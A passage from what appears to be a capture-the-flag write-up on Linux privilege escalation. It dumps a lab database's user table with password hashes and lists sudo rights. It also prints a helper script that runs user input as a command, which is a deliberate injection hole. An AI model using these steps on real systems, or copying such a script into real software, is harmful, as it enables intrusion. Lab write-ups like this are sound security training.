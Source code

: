 ```bash
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| webportal          |
+--------------------+
5 rows in set (0.00 sec)

mysql> use webportal;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+---------------------+
| Tables_in_webportal |
+---------------------+
| users               |
+---------------------+
1 row in set (0.00 sec)

mysql> select * from users;
+----+-----------+----------+-----------+----------------------------------+
| id | firstname | lastname | username  | password                         |
+----+-----------+----------+-----------+----------------------------------+
|  1 | Anurodh   | Acharya  | Aurick    | 7e53614ced3640d5de23f111806cc4fd |
|  2 | Apaar     | Dahal    | cullapaar | 686216240e5af30df0501e53c789a649 |
+----+-----------+----------+-----------+----------------------------------+
2 rows in set (0.00 sec)
```

I ran my [usual list of privilege escalation commands](../../concepts/privilege_escalation.md#linux-privilege-escalation). The sudo -l command returns something interesting:

```bash
$ sudo -l
Matching Defaults entries for www-data on ip-10-10-147-116:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-147-116:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```

I can run the above script as the apaar user. I view the contents of the script to see what I have to work with:

```bash
$ cat /home/apaar/.helpline.sh
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"
```
